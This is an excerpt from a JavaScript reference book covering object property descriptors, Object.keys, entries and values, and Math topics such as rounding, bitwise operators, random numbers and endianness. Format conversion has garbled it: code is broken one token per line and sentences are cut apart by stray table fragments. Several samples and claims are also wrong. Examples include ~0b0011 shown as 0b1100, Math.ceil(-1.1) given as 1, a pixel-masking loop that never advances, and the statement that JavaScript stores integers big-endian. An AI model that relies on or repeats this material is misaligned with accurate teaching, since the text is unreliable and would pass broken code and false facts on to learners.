  [Object](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/getOwnPropertyNames)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/getOwnPropertyNames)   [getOwnProperties](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/getOwnPropertyNames)
  -  

  

3.[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/getOwnPropertyNames)
function
>
This function will retrieve both enumerable and non enumerable, own
properties from an object. It was also released as a part of
ECMAScript 5.

*//Ex 1 : Simple data*

**var**

x

=

{

a

:

10

,

b

:

3

}

,

props

;

props

=

Object

.

getOwnPropertyNames

(

x

)

;

console.

log

(

props

)

;

*//\[\"a\",\"b\"\]*

*//Ex 2 : Data with enumerable properties in prototype chain*

**var**

x

=

{

a

:

10

,

\_\_proto\_\_

:

{

b

:

10

}

}

,

props

;

props

=

Object

.

getOwnPropertyNames

(

x

)

;

console.

log

(

props

)

;

*//\[\"a\"\]*

*//Ex 3 : Data with non enumerable properties*

**var**

x

=

{

a

:

10

}

,

props

;

Object

.

defineProperty

(

x

,

\"b\"

,

{

value

:

5

,

enumerable

:

**false**

}

)

;

props

=

Object

.

getOwnPropertyNames

(

x

)

;

console.

log

(

props

)

;

*//\[\"a\", \"b\"\]*

***Miscellaneous :***

A technique for retrieving all (own, enumerable, non enumerable, all
prototype level) properties from an object is given below,

**function**

getAllProperties

(

obj

,

props

=

\[

\]

)

{

**return**

obj

==

**null**

?

props

:

getAllProperties

(

Object

.

getPrototypeOf

(

obj

)

,

props.

concat

(

Object

.

getOwnPropertyNames

(

obj

)

)

)

;

}

**var**

x

=

{

a

:

10

,

\_\_proto\_\_

:

{

b

:

5

,

c

:

15

}

}

;

*//adding a non enumerable property to first level prototype*

Object

.

defineProperty

(

x\.

\_\_proto\_\_

,

\"d\"

,

{

value

:

20

,

enumerable

:

**false**

}

)

;

console.

log

(

getAllProperties

(

x

)

)

;

\[

\"a\"

,

\"b\"

,

\"c\"

,

\"d\"

,

\"\...other default core props\...\"

\]

And this will be supported by the browsers which supports ECMAScript
5.

## Section 13.14: Read-Only property

Version ≥ 5

Using property descriptors we can make a property read only, and any
attempt to change its value will fail silently, the value will not be
changed and no error will be thrown.
>
The writable property in a property descriptor indicates whether that
property can be changed or not.

**var**

a

=

{

}

;

Object

.

defineProperty

(

a

,

\'foo\'

,

{

value

:

\'original\'

,

writable

:

**false**

}

)

;

a\.

foo

=

\'new\'

;

console.

log

(

a\.

foo

)

;

Console output

original

## Section 13.15: Non enumerable property

Version ≥ 5

  
  **for**            (    \... **in** \...
  -  

  

We can avoid a property from showing up in ) loops
>
The enumerable property of the property descriptor tells whether that
property will be enumerated while looping through the object\'s
properties.

**var**

obj

=

{

}

;

Object

.

defineProperty

(

obj

,

\"foo\"

,

{

value

:

\'show\'

,

enumerable

:

**true**

}

)

;

Object

.

defineProperty

(

obj

,

\"bar\"

,

{

value

:

\'hide\'

,

enumerable

:

**false**

}

)

;

**for**

(

**var**

prop

**in**

obj

)

{

console.

log

(

obj

\[

prop

\]

)

;

}

Console output

show

## Section 13.16: Lock property description

Version ≥ 5

A property\'s descriptor can be locked so no changes can be made to
it. It will still be possible to use the property normally, assigning
and retrieving the value from it, but any attempt to redefine it will
throw an exception.
>
The configurable property of the property descriptor is used to
disallow any further changes on the descriptor.

**var**

obj

=

{

}

;

*// Define \'foo\' as read only and lock it*

Object

.

defineProperty

(

obj

,

\"foo\"

,

{

value

:

\"original value\"

,

writable

:

**false**

,

configurable

:

**false**

}

)

;

Object

.

defineProperty

(

obj

,

\"foo\"

,

{

writable

:

**true**

}

)

;

This error will be thrown:

TypeError: Cannot redefine property: foo

And the property will still be read only.

obj.

foo

=

\"new value\"

;

console.

log

(

foo

)

;

Console output

original value

## Section 13.17: Object.getOwnPropertyDescriptor

Get the description of a specific property in an object.

**var**

sampleObject

=

{

hello

:

\'world\'

}

;

Object

.

getOwnPropertyDescriptor

(

sampleObject

,

\'hello\'

)

;

*// Object {value: \"world\", writable: true, enumerable: true,
configurable: true}*

## Section 13.18: Descriptors and Named Properties

  
  object.propertyName
  

  

Properties are members of an object. Each named property is a pair of
(name, descriptor). The name is a string that allows access (using the
dot notation or the square brackets notation

  
  object               \[   \'propertyName\'
    

  

\]). The descriptor is a record of fields defining the bevahiour of the
property when it is

accessed (what happens to the property and what is the value returned
from accessing it). By and large, a property associates a name to a
behavior (we can think of the behavior as a black box).
>
There are two types of named properties:

1.  *data property*: the property\'s name is associated with a value.

2.  *accessor property*: the property\'s name is associated with one or
    two accessor functions.

Demonstration:
>
obj.propertyName1 = 5; *//translates behind the scenes into*
>
*//either assigning 5 to the value field\* if it is a data property*
>
*//or calling the set function with the parameter 5 if accessor
property*
>
*//\*actually whether an assignment would take place in the case of a
data property*
>
*//also depends on the presence and value of the writable field - on
that later on*
>
The property\'s type is determined by its descriptor\'s fields, and a
property cannot be of both types.
>
**Data descriptors** -
>
Required fields: value or writable or both Optional
fields:configurable,enumerable
>
Sample:

{

value

:

10

,

writable

:

**true**

;

}

**Accessor descriptors** -
>
Required fields: **get** or **set** or both
>
Optional fields: configurable, enumerable
>
Sample:

{

**get**

:

**function**

(

)

{

**return**

10

;

}

,

enumerable

:

**true**

}

**meaning of fields and their defaults** configurable,enumerable and
writable:
>
These keys all default to **false**. configurable is **true** if and
only if the type of this property descriptor may be changed and if the
property may be deleted from the corresponding object.
>
enumerable is **true** if and only if this property shows up during
enumeration of the properties on the corresponding object.
>
writable is **true** if and only if the value associated with the
property may be changed with an assignment operator.
>
**get** and **set**:
>
These keys default to **undefined**. **get** is a function which
serves as a getter for the property, or **undefined** if there is no
getter. The function return will be used as the value of the property.
>
**set** is a function which serves as a setter for the property, or
**undefined** if there is no setter. The function will receive as only
argument the new value being assigned to the property.
>
value:
>
This key defaults to **undefined**.
>
The value associated with the property. Can be any valid JavaScript
value (number, object, function, etc).
>
Example:
>
**var** obj = {propertyName1: 1}; *//the pair is actually
(\'propertyName1\', {value:1,* *// writable:true,*
>
*// enumerable:true,*
>
*// configurable:true})* Object.defineProperty(obj, \'propertyName2\',
{**get**: **function**() { console.log(\'this will be logged \' +
\'every time propertyName2 is accessed to get its value\'); },
**set**: **function**() { console.log(\'and this will be logged \' +
\'every time propertyName2**\\\'**s value is tried to be set\')
>
*//will be treated like it has enumerable:false, configurable:false*
>
}});
>
*//propertyName1 is the name of obj\'s data property //and
propertyName2 is the name of its accessor property*
>
obj.propertyName1 = 3; console.log(obj.propertyName1); *//3*
>
obj.propertyName2 = 3; *//and this will be logged every time
propertyName2\'s value is tried to be set*
console.log(obj.propertyName2); *//this will be logged every time
propertyName2 is accessed to get its value*

## Section 13.19: Object.keys

Version ≥ 5

Object

.

keys

(

obj

)

returns an array of a given object\'s keys.

**var**

obj

=

{

a

:

\"hello\"

,

b

:

\"this is\"

,

c

:

\"javascript!\"

}

;

**var**

keys

=

Object

.

keys

(

obj

)

;

console.

log

(

keys

)

;

*// \[\"a\", \"b\", \"c\"\]*

## Section 13.20: Properties with special characters or reserved words

  
  myObject.property
  

  

While object property notation is usually written as , this will only
allow characters that are normally found in [JavaScript variable
names](http://stackoverflow.com/questions/1661197/what-characters-are-valid-for-javascript-variable-names),
which is mainly letters, numbers and underscore (\_).
>
If you need special characters, such as space, ☺, or user-provided
content, this is possible using \[\] bracket notation.

myObject

\[

\'special property

☺

\'

\]

=

\'it works!\'

console.

log

(

myObject

\[

\'special property

☺

\'

\]

)

**All-digit properties:**

In addition to special characters, property names that are all-digits
will require bracket notation. However, in this case the property need
not be written as a string.
>
myObject\[123\] = \'hi!\' *// number 123 is automatically converted to
a string* console.log(myObject\[\'123\'\]) *// notice how using string
123 produced the same result* console.log(myObject\[\'12\' + \'3\'\])
*// string concatenation* console.log(myObject\[120 + 3\]) *//
arithmetic, still resulting in 123 and producing the same result*
console.log(myObject\[123.0\]) *// this works too because 123.0
evaluates to 123* console.log(myObject\[\'123.0\'\]) *// this does NOT
work, because \'123\' != \'123.0\'*
>
However, leading zeros are not recommended as that is interpreted as
Octal notation. (TODO, we should produce and link to an example
describing octal, hexadecimal and exponent notation)

See also: \[Arrays are Objects\] example.

## Section 13.21: Creating an Iterable object

Version ≥ 6

**var**

myIterableObject

=

{

}

;

*// An Iterable object must define a method located at the
Symbol.iterator key:*

myIterableObject

\[

Symbol.

iterator

\]

=

**function**

(

)

{

*// The iterator should return an Iterator object*

**return**

{

*// The Iterator object must implement a method, next()*

next

:

**function**

(

)

{

*// next must itself return an IteratorResult object*

**if**

(

!

**this**

.

iterated

)

{

**this**

.

iterated

=

**true**

;

*// The IteratorResult object has two properties*

**return**

{

*// whether the iteration is complete, and*

done

:

**false**

,

*// the value of the current iteration*

value

:

\'One\'

}

;

}

**return**

{

*// When iteration is complete, just the done property is needed*

done

:

**true**

}

;

}

,

iterated

:

**false**

}

;

}

;

**for**

(

**var**

c of myIterableObject

)

{

console.

log

(

c

)

;

}

Console output

One

## Section 13.22: Iterating over Object entries - Object.entries()

Version ≥ 8

  
  [Object](https://github.com/tc39/proposal-object-values-entries)   [.](https://github.com/tc39/proposal-object-values-entries)   [entries](https://github.com/tc39/proposal-object-values-entries)
    -

  

The [proposed
()](https://github.com/tc39/proposal-object-values-entries) method
returns an array of key/value pairs for the given object. It does not
return

  -
  Array   .   **prototype**   .   entries   (), but the Array returned   Object   .   entries
                                            by                                        
  -        

  -

an iterator like () can be iterated regardless.

**const**

obj

=

{

one

:

1

,

two

:

2

,

three

:

3

}

;

Object

.

entries

(

obj

)

;

Results in:

\[

\[

\"one\"

,

1

\]

,

\[

\"two\"

,

2

\]

,

\[

\"three\"

,

3

\]

\]

It is an useful way of iterating over the key/value pairs of an
object:

**for**

(

**const**

\[

key

,

value

\]

of

Object

.

entries

(

obj

)

)

{

console.

log

(

key

)

;

*// \"one\", \"two\" and \"three\"*

console.

log

(

value

)

;

*// 1, 2 and 3*

}

## Section 13.23: Object.values()

Version ≥ 8

  
  Object                           .     values
  - - -

  

The () method returns an array of a given object\'s own enumerable
property values, in the same order as that provided by a for\...in
loop (the difference being that a for-in loop enumerates properties in
the prototype chain as well).

**var**

obj

=

{

0

:

\'a\'

,

1

:

\'b\'

,

2

:

\'c\'

}

;

console.

log

(

Object

.

values

(

obj

)

)

;

*// \[\'a\', \'b\', \'c\'\]*

**Note:**
>
For browser support, please refer to this
[link](http://kangax.github.io/compat-table/es2016plus/#test-Object.values)

# Chapter 14: Arithmetic (Math)

## Section 14.1: Constants

**Constants Description Approximate**

  
  Math
  

  

.E Base of natural logarithm *e* 2.718

  
  Math                            .       LN10
   - 

  

Natural logarithm of 10 2.302

  
  Math                                .        LN2
    

  

Natural logarithm of 2 0.693

  
  Math                      .      LOG10E
    

  

Base 10 logarithm of *e* 0.434

  -
  Math                         .       LOG2E
   - 

  -

Base 2 logarithm of *e* 1.442

  -
  Math                                     .          PI
  - - 

  -

Pi: the ratio of circle circumference to
>
3.14 diameter (π)

  
  Math                    .     SQRT1_2
   - 

  

Square root of 1/2 0.707

  -
  Math                         .       SQRT2
   - 

  -

Square root of 2 1.414

Difference between one and the smallest

  -
  Number                         .     EPSILON
  - - 

  -

value greater than one representable as
2.2204460492503130808472633361816E-16 a Number

  
  n
  

  

Largest integer n such that n and + 1

  -
  Number             .   MAX_SAFE_INTEGER
  -  

  -

are both exactly representable as a 2\^53 - 1 Number

  
  Number                     .    MAX_VALUE
    

  

Largest positive finite value of Number 1.79E+308

  
  n
  

  

Smallest integer n such that n and - 1

  -
  Number             .   MIN_SAFE_INTEGER
  -  

  -

are both exactly representable as a -(2\^53 - 1) Number

  
  Number                     .    MIN_VALUE
    

  

Smallest positive value for Number 5E-324

  -
  Number            .   NEGATIVE_INFINITY
    

  -

Value of negative infinity (-∞)

  -
  Number            .   POSITIVE_INFINITY
    

  -

Value of positive infinity (∞)

**Infinity** Value of positive infinity (∞)

## Section 14.2: Remainder / Modulus (%)

The remainder / modulus operator (%) returns the remainder after
(integer) division.

console.

log

(

42

\%

10

)

;

*// 2*

console.

log

(

42

\%

\-

10

)

;

*// 2*

console.

log

(

\-

42

\%

10

)

;

*// -2*

console.

log

(

\-

42

\%

\-

10

)

;

*// -2*

console.

log

(

\-

40

\%

10

)

;

*// -0*

console.

log

(

40

\%

10

)

;

*// 0*

This operator returns the remainder left over when one operand is
divided by a second operand. When the first operand is a negative
value, the return value will always be negative, and vice versa for
positive values.

  
  10
  

  

  
  42
  

  

In the example above, 10 can be subtracted four times from 42 before
there is not enough left to subtract again without it changing sign.
The remainder is thus: - 4 \*= 2.
>
The remainder operator may be useful for the following problems:

1.  Test if an integer is (not) divisible by another number:

x

\%

4

==

0

*// true if x is divisible by 4*

x

\%

2

==

0

*// true if x is even number*

x

\%

2

!=

0

*// true if x is odd number*

  -
  ===          -0, this also works for                        x \<=
    

  -

Since 0-0.

  
  n
  

  

2.  Implement cyclic increment/decrement of value within \[0,) interval.

Suppose that we need to increment integer value from 0 to (but not
including) n, so the next value after n-1 become
>
0\. This can be done by such pseudocode:

**var**

n

=

\...

;

*// given n*

**var**

i

=

0

;

**function**

inc

(

)

{

i

=

(

i

\+

1

)

\%

n

;

}

while

(

**true**

)

{

inc

(

)

;

*// update something with i*

}

Now generalize the above problem and suppose that we need to allow to
both increment and decrement that value from 0 to (not including) n,
so the next value after n-1 become 0 and the previous value before 0
become n-1.

**var**

n

=

\...

;

*// given n*

**var**

i

=

0

;

**function**

delta

(

d

)

{

*// d - any signed integer*

i

=

(

i

\+

d

\+

n

)

\%

n

;

*// we add n to (i+d) to ensure the sum is positive*

}

  
  delta
  

  

Now we can call () function passing any integer, both positive and
negative, as delta parameter.

**Using modulus to obtain the fractional part of a number**

**var**

myNum

=

10

/

4

;

*// 2.5*

**var**

fraction

=

myNum

\%

1

;

*// 0.5*

myNum

=

\-

20

/

7

;

*// -2.857142857142857*

fraction

=

myNum

\%

1

;

*// -0.857142857142857*

## Section 14.3: Rounding

**Rounding**

  -
  Math                         .       round
   - 

  -

() will round the value to the closest integer using *half round up*
to break ties.

**var**

a

=

Math

.

round

(

2.3

)

;

*// a is now 2*

**var**

b

=

Math

.

round

(

2.7

)

;

*// b is now 3*

**var**

c

=

Math

.

round

(

2.5

)

;

*// c is now 3*

But

**var**

c

=

Math

.

round

(

\-

2.7

)

;

*// c is now -3*

**var**

c

=

Math

.

round

(

\-

2.5

)

;

*// c is now -2*

  
  2.5
  

  

Note how - is rounded to -2. This is because half-way values are
always rounded up, that is they\'re rounded to the integer with the
next higher value.
>
**Rounding up**

  
  Math                            .       ceil
   - 

  

() will round the value up.

**var**

a

=

Math

.

ceil

(

2.3

)

;

*// a is now 3*

**var**

b

=

Math

.

ceil

(

2.7

)

;

*// b is now 3*

ceiling a negative number will round towards zero

**var**

c

=

Math

.

ceil

(

\-

1.1

)

;

*// c is now 1*

**Rounding down**

  -
  Math                         .       floor
   - 

  -

() will round the value down.

**var**

a

=

Math

.

floor

(

2.3

)

;

*// a is now 2*

**var**

b

=

Math

.

floor

(

2.7

)

;

*// b is now 2*

flooring a negative number will round it away from zero.

**var**

c

=

Math

.

floor

(

\-

1.1

)

;

*// c is now -1*

**Truncating**

  
  2147483649
  

  

**Caveat**: using bitwise operators (except \>\>\>) only applies to
numbers between - and 2147483648.
>
2.3 \| 0; *// 2 (floor)* -2.3 \| 0; *// -2 (ceil)* **NaN** \| 0; *//
0*

Version ≥ 6

  -
  Math                         .       trunc
   - 

  -

()
>
Math.trunc(2.3); *// 2 (floor)* Math.trunc(-2.3); *// -2 (ceil)*
>
Math.trunc(2147483648.1); *// 2147483648 (floor)*
Math.trunc(-2147483649.1); *// -2147483649 (ceil)*
>
Math.trunc(**NaN**); *// NaN*
>
**Rounding to decimal places**

  -
  Math    .   floor     ,   Math    .   ceil    (), and       Math    .   round
  -    -  - - -  

  -

() can be used to round to a number of decimal places
>
To round to 2 decimal places:
>
**var** myNum = 2/3; *// 0.6666666666666666* **var** multiplier = 100;
**var** a = Math.round(myNum \* multiplier) / multiplier; *// 0.67*
**var** b = Math.ceil (myNum \* multiplier) / multiplier; *// 0.67*
**var** c = Math.floor(myNum \* multiplier) / multiplier; *// 0.66*
>
You can also round to a number of digits:

**var**

myNum

=

10000

/

3

;

*// 3333.3333333333335*

**var**

multiplier

=

1

/

100

;

**var**

a

=

Math

.

round

(

myNum

\*

multiplier

)

/

multiplier

;

*// 3300*

**var** b = Math.ceil (myNum \* multiplier) / multiplier; *// 3400*
**var** c = Math.floor(myNum \* multiplier) / multiplier; *// 3300* As a
more usable function:

*// value is the value to round*

*// places if positive the number of decimal places to round to*

*// places if negative the number of digits to round to*

**function**

roundTo

(

value

,

places

)

{

**var**

power

=

Math

.

pow

(

10

,

places

)

;

**return**

Math

.

round

(

value

\*

power

)

/

power

;

}

**var**

myNum

=

10000

/

3

;

*// 3333.3333333333335*

roundTo

(

myNum

,

2

)

;

*// 3333.33*

roundTo

(

myNum

,

0

)

;

*// 3333*

roundTo

(

myNum

,

\-

2

)

;

*// 3300*

And the variants for

ceil

and

floor

:

**function**

ceilTo

(

value

,

places

)

{

**var**

power

=

Math

.

pow

(

10

,

places

)

;

**return**

Math

.

ceil

(

value

\*

power

)

/

power

;

}

**function**

floorTo

(

value

,

places

)

{

**var**

power

=

Math

.

pow

(

10

,

places

)

;

**return**

Math

.

floor

(

value

\*

power

)

/

power

;

}

## Section 14.4: Trigonometry

  
  180              \*   r            /    Math                 .    PI
  -      

  

All angles below are in radians. An angle r in radians has measure in
degrees.
>
**Sine**

Math

.

sin

(

r

)

;

This will return the sine of r, a value between -1 and 1.

Math

.

asin

(

r

)

;

This will return the arcsine (the reverse of the sine) of r.

Math

.

asinh

(

r

)

This will return the hyperbolic arcsine of r.
>
**Cosine**

Math

.

cos

(

r

)

;

This will return the cosine of r, a value between -1 and 1

Math

.

acos

(

r

)

;

This will return the arccosine (the reverse of the cosine) of r.

Math

.

acosh

(

r

)

;

This will return the hyperbolic arccosine of r.

**Tangent**

Math

.

tan

(

r

)

;

This will return the tangent of

r

.

Math

.

atan

(

r

)

;

This will return the arctangent (the reverse of the tangent) of

r

. Note that it will return an angle in radians between

\-

π

/

2

and

π

/

2

.

Math

.

atanh

(

r

)

;

This will return the hyperbolic arctangent of

r

.

Math

.

atan2

(

x

,

y

)

;

This will return the value of an angle from

(

0

,

0

)

to

(

x

,

y

)

in radians. It will return a value between

\-

π

and

π

, not

including π.

## Section 14.5: Bitwise operators

Note that all bitwise operations operate on 32-bit integers by passing
any operands to the internal function
[ToInt32](http://www.ecma-international.org/ecma-262/6.0/#sec-toint32).
>
**Bitwise or**

**var**

a

;

a

=

0b0011

\|

0b1010

;

*// a === 0b1011*

*// truth table*

*// 1010 \| (or)*

*// 0011*

*// 1011 (result)*

**Bitwise and**

a

=

0b0011

&

0b1010

;

*// a === 0b0010*

*// truth table*

*// 1010 & (and)*

*// 0011*

*// 0010 (result)*

**Bitwise not**

a

=

\~0b0011

;

*// a === 0b1100*

*// truth table*

*// 10 \~(not)*

*// 01 (result)*

**Bitwise**

**xor**

**(exclusive or)**

a

=

0b1010

\^

0b0011

;

*// a === 0b1001*

*// truth table*

*// 1010 \^ (xor)*

*// 0011*

*// 1001 (result)*

**Bitwise**

**left shift**

a

=

0b0001

\<\<

1

;

*// a === 0b0010*

a

=

0b0001

\<\<

2

;

*// a === 0b0100*

a

=

0b0001

\<\<

3

;

*// a === 0b1000*

  -
  Math                  .     pow              (2,              n
   - - - -

  -

Shift left is equivalent to integer multiply by ). When doing integer
math, shift can significantly improve the speed of some math
operations.

**var**

n

=

2

;

**var**

a

=

5.4

;

**var**

result

=

(

a

\<\<

n

)

===

Math

.

floor

(

a

)

\*

Math

.

pow

(

2

,

n

)

;

*// result is true*

a

=

5.4

\<\<

n

;

*// 20*

**Bitwise right shift \>\(Sign-propagating shift) \>\>\(Zero-fill
right shift)**

a

=

0b1001

\>\>

1

;

*// a === 0b0100*

a

=

0b1001

\>\>

2

;

*// a === 0b0010*

a

=

0b1001

\>\>

3

;

*// a === 0b0001*

a

=

0b1001

\>\>\>

1

;

*// a === 0b0100*

a

=

0b1001

\>\>\>

2

;

*// a === 0b0010*

a

=

0b1001

\>\>\>

3

;

*// a === 0b0001*

A negative 32bit value always has the left most bit on:
>
a = 0b11111111111111111111111111110111 \| 0; console.log(a); *// -9* b
= a \>\2; *// leftmost bit is shifted 1 to the right then new left
most bit is set to on (1)* console.log(b); *// -3* b = a \>\>\2; *//
leftmost bit is shifted 1 to the right. the new left most bit is set
to off (0)* console.log(b); *// 2147483643*
>
The result of a \>\>\operation is always positive.
>
The result of a \>\is always the same sign as the shifted value.

  
  Math                                .        pow
    

  

Right shift on positive numbers is the equivalent of dividing by the
(2,n) and flooring the result:

a

=

256.67

;

n

=

4

;

result

=

(

a

\>\>

n

)

===

Math

.

floor

(

Math

.

floor

(

a

)

/

Math

.

pow

(

2

,

n

)

)

;

*// result is true*

a

=

a

\>\>

n

;

*// 16*

result

=

(

a

\>\>\>

n

)

===

Math

.

floor

(

Math

.

floor

(

a

)

/

Math

.

pow

(

2

,

n

)

)

;

*// result is true*

a

=

a

\>\>\>

n

;

*// 16*

Right shift zero fill (\>\>\>) on negative numbers is different. As
JavaScript does not convert to unsigned ints when doing bit operations
there is no operational equivalent:

*// result is false*

a

=

\-

256.67

;

result

=

(

a

\>\>\>

n

)

===

Math

.

floor

(

Math

.

floor

(

a

)

/

Math

.

pow

(

2

,

n

)

)

;

**Bitwise assignment operators**
>
With the exception of not (\~) all the above bitwise operators can be
used as assignment operators:

a

\|=

b

;

*// same as: a = a \| b;*

a

\^=

b

;

*// same as: a = a \^ b;*

a

&=

b

;

*// same as: a = a & b;*

a

\>\>=

b

;

*// same as: a = a \>\b;*

a

\>\>\>=

b

;

*// same as: a = a \>\>\b;*

a

\<\<=

b

;

*// same as: a = a \<\< b;*

**Warning**: JavaScript uses Big Endian to store integers. This will
not always match the Endian of the device/OS. When using typed arrays
with bit lengths greater than 8 bits you should check if the
environment is Little Endian or Big Endian before applying bitwise
operations.
>
**Warning**: Bitwise operators such as & and \| are **not** the same
as the logical operators && (and) and \|\| (or). They will provide
incorrect results if used as logical operators. The \^ operator is
**not** the power operator (*ab*).

## Section 14.6: Incrementing (++)

The Increment operator (++) increments its operand by one.

If used as a postfix, then it returns the value before incrementing.

If used as a prefix, then it returns the value after incrementing.

*//postfix*

**var**

a

=

5

,

*// 5*

b

=

a

++

,

*// 5*

c

=

a

*// 6*

In this case, a is incremented after setting b. So, b will be 5, and c
will be 6.

*//prefix*

**var**

a

=

5

,

*// 5*

b

=

++

a

,

*// 6*

c

=

a

*// 6*

In this case, a is incremented before setting b. So, b will be 6, and
c will be 6.
>
The increment and decrement operators are commonly used in **for**
loops, for example:

**for**

(

**var**

i

=

0

;

i

\<

42

;

++

i

)

{

*// do something awesome!*

}

Notice how the *prefix* variant is used. This ensures that a
temporarily variable isn\'t needlessly created (to return the value
prior to the operation).

## Section 14.7: Exponentiation (Math.pow() or \*\*)

Exponentiation makes the second operand the power of the first operand
(ab).

**var**

a

=

2

,

b

=

3

,

c

=

Math

.

pow

(

a

,

b

)

;

c will now be 8

Version \6

Stage 3 ES2016 (ECMAScript 7) Proposal:

**let**

a

=

2

,

b

=

3

,

c

=

a

\*\*

b

;

c will now be 8
>
**Use Math.pow to find the nth root of a number.**
>
Finding the nth roots is the inverse of raising to the nth power. For
example 2 to the power of 5 is 32. The 5th root of 32 is 2.
>
Math.pow(v, 1 / n); *// where v is any positive real number* *// and n
is any positive integer*
>
**var** a = 16; **var** b = Math.pow(a, 1 / 2); *// return the square
root of 16 = 4* **var** c = Math.pow(a, 1 / 3); *// return the cubed
root of 16 = 2.5198420997897464* **var** d = Math.pow(a, 1 / 4); *//
return the 4th root of 16 = 2*

## Section 14.8: Random Integers and Floats

**var**

a

=

Math

.

random

(

)

;

Sample value of a: 0.21322848065742162

  
  Math                      .      random
    

  

() returns a random number between 0 (inclusive) and 1 (exclusive)

**function**

getRandom

(

)

{

**return**

Math

.

random

(

)

;

}

  
  Math                      .      random
    

  

  
  min                        ,        max
    

  

To use () to get a number from an arbitrary range (not \[0,1)) use
this function to get a random number between min (inclusive) and max
(exclusive): interval of \[)

**function**

getRandomArbitrary

(

min

,

max

)

{

**return**

Math

.

random

(

)

\*

(

max

\-

min

)

\+

min

;

}

  
  Math                      .      random
    

  

  
  min                        ,        max
    

  

To use () to get an integer from an arbitrary range (not \[0,1)) use
this function to get a random number between min (inclusive) and max
(exclusive): interval of \[)

**function**

getRandomInt

(

min

,

max

)

{

**return**

Math

.

floor

(

Math

.

random

(

)

\*

(

max

\-

min

)

)

\+

min

;

}

  
  Math                      .      random
    

  

  
  min                        ,        max
    

  

To use () to get an integer from an arbitrary range (not \[0,1)) use
this function to get a random number between min (inclusive) and max
(inclusive): interval of \[\]

**function**

getRandomIntInclusive

(

min

,

max

)

{

**return**

Math

.

floor

(

Math

.

random

(

)

\*

(

max

\-

min

\+

1

)

)

\+

min

;

}

Functions taken from
<https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math/random>

## Section 14.9: Addition (+)

The addition operator (+) adds numbers.

**var**

a

=

9

,

b

=

3

,

c

=

a

\+

b

;

c.  will now be 12

This operand can also be used multiple times in a single assignment:

**var**

a

=

9

,

b

=

3

,

c

=

8

,

d

=

a

\+

b

\+

c

;

d.  will now be 20.

Both operands are converted to primitive types. Then, if either one is
a string, they\'re both converted to strings and concatenated.
Otherwise, they\'re both converted to numbers and added.

**null**

\+

**null**

;

*// 0*

**null**

\+

**undefined**

;

*// NaN*

**null**

\+

{

}

;

*// \"null\[object Object\]\"*

**null**

\+

\'\'

;

*// \"null\"*

If the operands are a string and a number, the number is converted to
a string and then they\'re concatenated, which may lead to unexpected
results when working with strings that look numeric.

\"123\"

\+

1

;

*// \"1231\" (not 124)*

If a boolean value is given in place of any of the number values, the
boolean value is converted to a number (0 for **false**, 1 for
**true**) before the sum is calculated:

**true**

\+

1

;

*// 2*

**false**

\+

5

;

*// 5*

**null**

\+

1

;

*// 1*

**undefined**

\+

1

;

*// NaN*

If a boolean value is given alongside a string value, the boolean
value is converted to a string instead:

**true**

\+

\"1\"

;

*// \"true1\"*

**false**

\+

\"bar\"

;

*// \"falsebar\"*

## Section 14.10: Little / Big endian for typed arrays when using bitwise operators

To detect the endian of the device

**var**

isLittleEndian

=

**true**

;

(

(

)

=\>

{

**var**

buf

=

**new**

ArrayBuffer

(

4

)

;

**var**

buf8

=

**new**

Uint8ClampedArray

(

buf

)

;

**var**

data

=

**new**

Uint32Array

(

buf

)

;

data

\[

0

\]

=

0x0F000000

;

**if**

(

buf8

\[

0

\]

===

0x0f

)

{

isLittleEndian

=

**false**

;

}

}

)

(

)

;

Little-Endian stores most significant bytes from right to left.
>
Big-Endian stores most significant bytes from left to right.

**var**

myNum

=

0x11223344

\|

0

;

*// 32 bit signed integer*

**var**

buf

=

**new**

ArrayBuffer

(

4

)

;

**var**

data8

=

**new**

Uint8ClampedArray

(

buf

)

;

**var**

data32

=

**new**

Uint32Array

(

buf

)

;

data32

\[

0

\]

=

myNum

;

*// store number in 32Bit array*

If the system uses Little-Endian, then the 8bit byte values will be

console.

log

(

data8

\[

0

\]

.

toString

(

16

)

)

;

*// 0x44*

console.

log

(

data8

\[

1

\]

.

toString

(

16

)

)

;

*// 0x33*

console.

log

(

data8

\[

2

\]

.

toString

(

16

)

)

;

*// 0x22*

console.

log

(

data8

\[

3

\]

.

toString

(

16

)

)

;

*// 0x11*

If the system uses Big-Endian, then the 8bit byte values will be

console.

log

(

data8

\[

0

\]

.

toString

(

16

)

)

;

*// 0x11*

console.

log

(

data8

\[

1

\]

.

toString

(

16

)

)

;

*// 0x22*

console.

log

(

data8

\[

2

\]

.

toString

(

16

)

)

;

*// 0x33*

console.

log

(

data8

\[

3

\]

.

toString

(

16

)

)

;

*// 0x44*

Example where Endian type is important

**var**

canvas

=

document.

createElement

(

\"canvas\"

)

;

**var**

ctx

=

canvas.

getContext

(

\"2d\"

)

;

**var**

imgData

=

ctx.

getImageData

(

0

,

0

,

canvas.

width

,

canvas.

height

)

;

*// To speed up read and write from the image buffer you can create a
buffer view that is*

*// 32 bits allowing you to read/write a pixel in a single operation*

**var**

buf32

=

**new**

Uint32Array

(

imgData.

data

.

buffer

)

;

*// Mask out Red and Blue channels*

**var**

mask

=

0x00FF00FF

;

*// bigEndian pixel channels Red,Green,Blue,Alpha*

**if**

(

isLittleEndian

)

{

mask

=

0xFF00FF00

;

*// littleEndian pixel channels Alpha,Blue,Green,Red*

}

**var**

len

=

buf32.

length

;

**var**

i

=

0

;

while

(

i

\<

len

)

{

*// Mask all pixels*

buf32

\[

i

\]

&=

mask

;

*//Mask out Red and Blue*

}

ctx.

putImageData

(

imgData

)

;

## Section 14.11: Get Random Between Two Numbers

Returns a random integer between min and max:

**function**

randomBetween

(

min

,

max

)

{

**return**

Math

.

floor

(

Math

.

random

(

)

\*

(

max

\-

min

\+

1

)

\+

min

)

;

}

Examples:

*// randomBetween(0, 10);*

Math

.

floor

(

Math

.

random

(

)

\*

11

)

;

*// randomBetween(1, 10);*

Math

.

floor

(

Math

.

random

(

)

\*

10

)

\+

1

;

*// randomBetween(5, 20);*

Math

.

floor

(

Math

.

random

(

)

\*

16

)

\+

5

;

*// randomBetween(-10, -2);*

Math

.

floor

(

Math

.

random

(

)

\*

9

)

\-

10

;

## Section 14.12: Simulating events with dierent probabilities

Sometimes you may only need to simulate an event with two outcomes,
maybe with different probabilities, but you may find yourself in a
situation that calls for many possible outcomes with different
